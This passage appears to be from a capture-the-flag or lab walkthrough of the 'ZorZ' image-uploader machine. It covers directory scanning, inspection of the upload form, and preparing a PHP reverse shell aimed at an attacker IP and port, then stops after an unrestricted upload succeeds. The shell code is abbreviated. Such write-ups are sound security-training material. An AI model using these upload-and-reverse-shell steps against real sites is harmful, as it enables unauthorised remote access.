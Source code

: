 
A later `gobuster` scan with a larger wordlist also revealed `/uploads3` (Status: 301).

I then used `curl` to inspect the content of the main page:

```shellscript
curl http://192.168.1.17/
```

The `index.html` page presented a "ZorZ Image Uploader!" form that submits to `uploader.php` and a link to `index2.html`.

```html
<!DOCTYPE html><html><body><center><br><br><br><form action="uploader.php" method="post" enctype="multipart/form-data">        <b>ZorZ Image Uploader!:</b><br><br>        <input type="file" name="upfile" id="upfile"><br><br>        <input type="submit" value="Upload Image" name="submit"></form><br><a href="index2.html">Try ZorZ Image Uploader2!</a></center></body></html>
```

Navigating to `index2.html` revealed "ZorZ Image Uploader 2!" and links to "ZorZ Image Uploader 1" and "ZorZ Image Uploader 3". This clearly indicated multiple upload functionalities, likely with varying levels of security.

<img width="1047" height="483" alt="image" src="https://github.com/user-attachments/assets/4279074f-a87f-4360-923c-af33e3cddef0" />


## Initial Foothold (File Upload Vulnerabilities)

The primary goal was to upload a PHP web shell to gain remote code execution. I prepared a standard PHP reverse shell for this purpose.

### Preparing the PHP Web Shell

I copied a `php-reverse-shell.php` from my Kali machine and modified it to connect back to my attacking machine's IP (`192.168.1.5`) and port (`4444`).

```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// ... (rest of the original script) ...
$ip = '192.168.1.5';  // CHANGE THIS
$port = 4444;       // CHANGE THIS
// ... (rest of the original script) ...
?>
```

### Attempting Uploads and Bypasses

I proceeded to test the different upload forms, starting with the least restrictive and moving to more complex bypasses.

#### 1. Upload to `uploader.php`(via `index.html`)

I attempted to upload the `php-reverse-shell.php` directly through the form on `index.html` (which submits to `uploader.php`). This upload was successful, indicating minimal file type validation.

I confirmed its presence by browsing to the `/uploads1` directory:
